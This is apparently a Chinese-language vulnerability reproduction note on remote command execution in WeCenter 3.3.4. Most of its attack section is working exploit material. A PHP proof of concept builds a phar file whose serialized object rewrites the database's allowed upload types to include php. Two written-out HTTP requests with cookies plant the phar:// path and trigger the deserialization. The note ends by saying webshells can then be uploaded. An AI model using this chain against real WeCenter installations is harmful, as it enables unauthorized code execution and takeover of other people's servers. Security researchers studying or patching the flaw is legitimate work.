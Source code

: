 WeCenter 3.3.4 远程命令执行
===========================

一、漏洞简介
------------

二、漏洞影响
------------

WeCenter 3.3.4

三、复现过程
------------

### 远程命令执行

**WeCenter** 后台的 **允许的附件文件类型**
处，设置了用户可上传的文件类型后缀。而这个配置是写在数据库中的，我们可以利用前面的任意
**SQL** 语句执行的 **POP** 链，往字段中添加 **php** 文件后缀。

![](./.resource/WeCenter3.3.4远程命令执行/media/rId25.png)

### poc

    <?php
    class AWS_MODEL
    {
        private $_shutdown_query = array();

        public function __construct($_shutdown_query)
        {
            $this->_shutdown_query = $_shutdown_query;
        }
    }

    $sql = array('update aws_system_setting set value=\'s:45:"jpg,jpeg,png,gif,zip,doc,docx,rar,pdf,psd,php";\' where varname=\'allowed_upload_types\'');
    $evilobj = new AWS_MODEL($sql);
    // phar.readonly无法通过该语句进行设置: init_set("phar.readonly",0);
    $filename = 'poc.phar';// 后缀必须为phar，否则程序无法运行
    file_exists($filename) ? unlink($filename) : null;
    $phar=new Phar($filename);
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($evilobj);
    $phar->addFromString("foo.txt","bar");
    $phar->stopBuffering();
    ?>

### 利用

这里以 **RCE** 利用为例子。我们先用上面的 **EXP**
生成文件，然后找个可以上传文件的地方。这里要注意，一定不要选择在用户头像处上传。这里我们通过发起问题的地方来上传文件。

![](./.resource/WeCenter3.3.4远程命令执行/media/rId28.png)

通过如下数据包，将 **headimgurl** 插入数据库中（ **Cookie**
前缀每个网站都不一样，修改成自己的即可）。

    GET /wecenter334/?/m/weixin/binding/ HTTP/1.1
    Host: 0.0.0.0
    Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=akl7d5skae6ebea69bp8r1b4f0; CNZZDATA1273638993=564846603-1579067041-%7C1579097763; xhj__user_login=NcIFvaZbkaxoQfofEGo%2FSOCyrXq5R0lZofmF9uqaJHO5tpVyag7GEP3fdh9hKvPUf8Xj4x3kkxgLXcf1L4wocSQu9BUquhozfdiEN2Hfg8vj73XVn1f09yLfbpfbVs7K; xhj__WXConnect={"access_token":{"openid":1},"access_user":{"headimgurl":"phar:\/\/uploads\/question\/20200116\/f39510a7e8e47e3e4dcabbadeedd12f7.gif","nickname":"mochazz"}}
    Connection: close
    $wx = array(
        'access_token' => array('openid'=>1),
        'access_user'  => array('headimgurl'=>'phar:///uploads/question/20200116/f39510a7e8e47e3e4dcabbadeedd12f7.gif','nickname'=>'mochazz')
    );
    echo json_encode($wx);

接着通过如下数据包触发 **phar反序列化** 执行 **SQL** 语句。

    GET /wecenter334/?/account/ajax/synch_img/ HTTP/1.1
    Host: 0.0.0.0
    Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=qb72k9k1sl53gqibbg53nf32o1; CNZZDATA1273638993=564846603-1579067041-%7C1579137884; xhj__user_login=N9hSYaQOjPMdtxOXo9jQuCVQSykmK88gl3DTI4AmL%2BnhLpgnHFGGSHkzxAPYaVMbXo%2FAndADc%2FaD0wytUEK71YrLmxWCuEZDCSwn9b0ApyOpcIKa6E4cOotHqZpZwVq%2B
    Connection: close

现在，我们就可以随意上传 **webshell** 了。

![](./.resource/WeCenter3.3.4远程命令执行/media/rId29.png)

image
